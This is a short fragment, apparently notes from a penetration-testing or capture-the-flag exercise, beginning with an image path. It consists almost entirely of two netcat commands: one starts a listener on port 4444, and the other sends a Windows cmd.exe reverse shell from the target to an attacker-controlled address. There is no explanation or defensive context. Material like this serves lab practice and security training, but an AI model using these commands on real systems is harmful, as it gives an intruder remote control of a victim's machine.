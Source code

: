 --> listen on port

```
nc -lvnp 4444
```

--> push cmd through netcat, reverse shell

```
nc64.exe 10.10.14.25 4444 -e cmd.exe
```